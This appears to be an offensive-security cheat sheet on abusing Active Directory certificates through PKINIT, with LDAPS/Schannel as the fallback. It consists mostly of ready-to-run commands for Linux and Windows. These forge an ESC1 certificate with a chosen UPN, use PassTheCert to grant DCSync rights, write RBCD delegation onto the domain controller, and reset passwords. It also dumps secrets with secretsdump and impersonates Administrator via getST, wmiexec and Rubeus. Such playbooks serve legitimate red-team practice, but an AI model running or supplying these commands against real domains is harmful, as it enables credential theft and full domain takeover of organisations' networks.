 # PKINIT-Kerberos Cert Auth & Schannel (Fallback)

## Theory

> [!Overview] Title
> **PKINIT** extends Kerberos to allow **certificate-based initial authentication**: a client presents an **ADCS-issued X.509 client cert** to the KDC to obtain a TGT using public-key crypto. This requires proper DC/KDC certificates (e.g., including Smart Card Logon/KDC EKUs). If PKINIT isn't available or fails (e.g., KDC lacks the right cert), **Schannel (TLS/SSL)** can still authenticate to **LDAPS** using a client cert. Tools like **PassTheCert** leverage Schannel/LDAPS for LDAP-bound privilege changes (grant DCSync, RBCD, add computer, reset password) when PKINIT doesn't work.

## Requirements

- A usable **client certificate** (often obtained via ADCS: ESC1/ESC8/ESC11/etc.).
- **PKINIT path** prerequisites:

  - KDC/Domain Controller has a valid certificate (Smart Card Logon/KDC Authentication EKU).
  - CA trusts/chain installed on clients.
- **Schannel/LDAPS path** prerequisites:

  - LDAPS reachable on the DC (TCP **636**), DC trusts the issuing CA, and the account's certificate chains correctly.
- Tooling: `certipy`, `openssl`, `impacket` (`secretsdump.py`, `getST.py`, `wmiexec.py`), **PassTheCert** (Linux & Windows), `PowerView`/`powerview.py`, `Rubeus`.

## Linux

### Enumerate CA / Templates

```bash
certipy find -u '<USER>' -p '<PASS>' -dc-ip <DC_IP> -stdout -vulnerable
# Note CA: <CA_NAME>, DNS: <CA_FQDN>, template settings, ESC exposures
```

### Path A — PKINIT (if supported)

#### 1) Obtain a certificate (example: ESC1 machine-enrollment with UPN override)

```bash
addcomputer.py '<DOMAIN>/<USER>':'<PASS>' -method LDAPS -computer-name '<MACHINE>$' -computer-pass '<MACHINE_PASS>' -dc-ip <DC_IP>
# create a new machine account
```

```bash
# Example: enroll using a machine account against a user-misconfigured template
certipy req -u '<MACHINE>$' -p '<MACHINE_PASS>' -ca '<CA_NAME>' -dc-ip <DC_IP> \
  -template '<TEMPLATE_NAME>' -upn '<UPN>'
# Expect: "Got certificate with UPN '<UPN>'"; a <PFX_FILE> is produced
```

#### 2) Try PKINIT authentication

```bash
certipy auth -pfx '<PFX_FILE>'
# If successful: writes <CCACHE_FILE> and may print NT hash
# If you see KDC_ERR_PADATA_TYPE_NOSUPP => PKINIT not supported; use Schannel/LDAPS path
```

### Path B — Schannel/LDAPS (when PKINIT is NOT supported)

> Use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) with your PFX. Extract key/cert from PFX (or use PFX directly on Windows).

#### 1) Extract cert & key from PFX (optional for Linux tooling)

```bash
# Private key (with passphrase prompt)
# leave import pass empty; add 7777 as pem pass
openssl pkcs12 -in <PFX_FILE> -nocerts -out <KEY_FILE>

# Public cert
openssl pkcs12 -in <PFX_FILE> -clcerts -nokeys -out <CRT_FILE>

# (Optional) remove passphrase
openssl rsa -in <KEY_FILE> -out <NOPASS_KEY_FILE>
```

#### 2) PassTheCert actions over **LDAPS (636)**

**Grant DCSync to a user**

```bash
python3 passthecert.py -dc-ip <DC_IP> -domain <DOMAIN> -port 636 \
  -crt <CRT_FILE> -key <NOPASS_KEY_FILE> \
  -action modify_user -target <USER> -elevate
# Then DCSync:
secretsdump.py '<DOMAIN>/<USER>':'<PASS>'@<DC_IP>
```

**RBCD: add computer + write RBCD to DC**

```bash
# Add a computer that we control
python3 passthecert.py -dc-ip <DC_IP> -domain <DOMAIN> -port 636 \
  -crt <CRT_FILE> -key <NOPASS_KEY_FILE> \
  -action add_computer -computer-name '<NEW_MACHINE>$' -computer-pass '<NEW_MACHINE_PASS>'

# Delegate to DC from our new computer
python3 passthecert.py -dc-ip <DC_IP> -domain <DOMAIN> -port 636 \
  -crt <CRT_FILE> -key <NOPASS_KEY_FILE> \
  -action write_rbcd -delegate-to '<DC_HOSTNAME>$' -delegate-from '<NEW_MACHINE>$'

# Impersonate Administrator for a service on the DC (time sync may be required)
getST.py -spn 'cifs/<DC_FQDN>' -impersonate Administrator \
  '<DOMAIN>/<NEW_MACHINE>$:<NEW_MACHINE_PASS>'
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass <DC_FQDN>
```

**Reset a user’s password**

```bash
python3 passthecert.py -dc-ip <DC_IP> -domain <DOMAIN> -port 636 \
  -crt <CRT_FILE> -key <NOPASS_KEY_FILE> \
  -action modify_user -target <USER> -new-pass '<NEW_PASS>'
# Then:
wmiexec.py <DOMAIN>/<USER>:'<NEW_PASS>'@<DC_IP>
```

> If Kerberos fails with clock skew (e.g., `KRB_AP_ERR_SKEW`), sync time: `sudo ntpdate <DC_IP>`.

---

## Windows

> On Windows, **PassTheCert.exe** can use the **PFX directly**; you’ll often need **distinguished names** and **SIDs** for targets.

### Gather LDAP metadata with PowerView

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser -Identity '<USER>' | Select distinguishedname,objectsid
Get-DomainComputer -Identity '<DC_HOSTNAME>' -Properties distinguishedname
```

### Grant DCSync rights (Windows)

```powershell
.\PassTheCert.exe --server <DC_HOSTNAME> --cert-path .\<PFX_FILE> \
  --elevate --target "<TARGET_DN>" --sid <TARGET_SID>
# PassTheCert saves old nTSecurityDescriptor for easy restore
```

### RBCD (Windows)

```powershell
# Create a computer (password auto-generated if omitted)
.\PassTheCert.exe --server <DC_HOSTNAME> --cert-path .\<PFX_FILE> \
  --add-computer --computer-name <NEW_MACHINE>

# Get its SID
Get-DomainComputer -Name <NEW_MACHINE> -Properties objectsid

# Get DC DN
Get-DomainComputer -Name <DC_HOSTNAME> -Properties distinguishedname

# Write RBCD on the DC, allowing our machine to delegate
.\PassTheCert.exe --server <DC_HOSTNAME> --cert-path .\<PFX_FILE> \
  --rbcd --target "<TARGET_DN>" --sid <TARGET_SID>

# Abuse via Rubeus (example)
.\Rubeus.exe asktgt /user:"<NEW_MACHINE>$" /password:"<NEW_MACHINE_PASS>" \
  /domain:<DOMAIN> /impersonate:Administrator /msdsspn:CIFS/<DC_FQDN> /ptt
```

### Reset a user password (Windows)

```powershell
# Need target’s DN
Get-DomainUser -Identity '<USER>' -Properties distinguishedname

.\PassTheCert.exe --server <DC_HOSTNAME> --cert-path .\<PFX_FILE> \
  --reset-password --target "<TARGET_DN>" --new-password "<NEW_PASS>"
```

---

## Notes & Troubleshooting

* **PKINIT error** `KDC_ERR_PADATA_TYPE_NOSUPP`: KDC lacks a suitable DC certificate (e.g., Smart Card Logon). Fallback to **Schannel/LDAPS** approach.
* Ensure **LDAPS (636)** is accessible and the CA chain is trusted by the DC.
* **Clock skew**: Kerberos requires tight time sync. Use `ntpdate <DC_IP>`; `sudo rdate -n <DC_IP>` (Linux) or `w32tm /resync` (Windows).
* For ESC1-style enrollments, ensure template allows **Client Authentication** and **EnrolleeSuppliesSubject**, and you have enrollment rights (e.g., Domain Computers).
* PassTheCert (Linux) supports: `add_computer`, `del_computer`, `modify_computer`, `read_rbcd`, `write_rbcd`, `remove_rbcd`, `flush_rbcd`, `modify_user`, `whoami`, `ldap-shell`. Use restore flags/files on Windows to revert changes.
